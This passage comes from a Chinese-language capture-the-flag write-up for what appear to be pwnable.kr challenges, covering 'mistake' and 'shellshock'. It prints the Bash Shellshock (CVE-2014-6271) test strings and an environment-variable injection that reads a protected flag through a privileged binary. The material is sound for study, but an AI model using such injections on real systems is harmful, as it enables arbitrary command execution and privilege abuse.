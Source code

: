 ```
		system("/bin/cat flag\n");
	}
	else{
		printf("Wrong Password\n");
	}

	close(fd);
	return 0;
}

```

 这里`if(fd=open("/home/mistake/password",O_RDONLY,0400) < 0)`可以发现fd = 0

那么`read(fd,pw_buf,PW_LEN)`此处便是从标准输入读取了那么先输入pw_buf，再输入pw_buf2，程序会将pw_buf2异或，然后异或后等于pw_buf即可

```
mistake@ubuntu:~$ ./mistake 
do not bruteforce...
0000000000
input password : 1111111111
Password OK
Mommy, the operator priority always confuses me :(
mistake@ubuntu:~$ 

```

## 0x0A shellshock

一个bash漏洞的简单利用

> Bash 4.3以及之前的版本在处理某些构造的环境变量时存在安全漏洞，向环境变量值内的函数定义后添加多余的字符串会触发此漏洞，攻击者可利用此漏洞改变或绕过环境限制，以执行任意的shell命令,甚至完全控制目标系统
>
> 受到该漏洞影响的bash使用的环境变量是通过函数名称来调用的，以“(){”开头通过环境变量来定义的。而在处理这样的“函数环境变量”的时候，并没有以函数结尾“}”为结束，而是一直执行其后的shell命令

> (1).CVE-2014-6271 测试方式:
> ​      env x='() { :;}; echo vulnerable' bash -c "echo this is a test" 
> (2).CVE-2014-7169 测试方式:(CVE-2014-6271补丁更新后仍然可以绕过)
> ​      env -i X=';() { (a)=>\' bash -c 'echo date'; cat echo



可以发现shellshock执行的时候具有shell_pwn权限，那就可以读flag

```
shellshock@ubuntu:~$ ls -l
total 960
-r-xr-xr-x 1 root shellshock     959120 Oct 12  2014 bash
-r--r----- 1 root shellshock_pwn     47 Oct 12  2014 flag
-r-xr-sr-x 1 root shellshock_pwn   8547 Oct 12  2014 shellshock
-r--r--r-- 1 root root              188 Oct 12  2014 shellshock.c

```

结合一下bash漏洞：

```
shellshock@ubuntu:~$ env x='() { :;}; /bin/cat flag' ./shellshock -c "echo this is a test" 
only if I knew CVE-2014-6271 ten years ago..!!
Segmentation fault

```



## 0x0B coin1

